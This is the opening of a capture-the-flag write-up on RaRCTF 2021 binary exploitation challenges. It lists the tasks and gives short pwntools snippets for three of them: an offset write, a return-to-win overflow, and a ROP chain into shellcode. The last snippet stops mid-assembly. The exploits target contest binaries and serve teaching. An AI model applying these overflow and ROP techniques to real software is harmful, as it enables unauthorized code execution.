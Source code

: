 ```yaml
---
layout: page
title: "RaRCTF2021 pwn"
date: 2021-08-18 00:00:00 -0000
---
```


I played RaRCTF as a member of team 3k and I solved 7 tasks(6 pwn, 1 rev). The team was in 10th place.

This writeup includes the above tasks and tasks I didn't solve during the competition time.

All solvers are available [here](https://github.com/jt00000/ctf.writeup/tree/master/rarctf2021/rarctf2021).

[Archer](#archer)  
[ret2winRaRs](#ret2winrars)  
[Not That Simple](#not-that-simple)  
[The Guessing Game](#the-guessing-game)  
[(rev) boring-flag-checker](#boring-flag-checker)  
[boring-flag-runner](#boring-flag-runner)  
[Unintended](#unintended)  
[RaRmony](#rarmony)  
[Object Oriented Pwning](#object-oriented-pwning)  
[Return of Emoji DB](#return-of-emoji-db)  
[The Mound](#the-mound)  

# Archer
This binary is designed to zero the target, and zeroing a particular variable will launch a shell. There is a weird offset calculation that needs to be adjusted well.

```python
 sendlineafter(': ', 'yes')
 sendlineafter('?\n', hex(elf.sym.code-0x500000))
```

# ret2winRaRs
Just jump to win. You need to adjust the stack.

```python
sendlineafter(': ', 'a'*40 + p64(elf.sym.flag+1))
```

# Not That Simple
- The name of one of several files under `/pwn` will be the flag string.
- The directory list is obtained by gentdents (fd, buf, length) after opening the folder. (Rax = 78)
- Stack address is leaked, but I didn't use it because fixed addresses are more convenient.

```python
rdi = 0x4012eb
buf = 0x404110

payload = ''
payload += 'A'*88
payload += flat(rdi, buf, elf.plt.gets, buf)

r.sendlineafter('> ', payload)

payload = ''
payload += asm('''
        xor rax, rax
        mov rdi, 0
```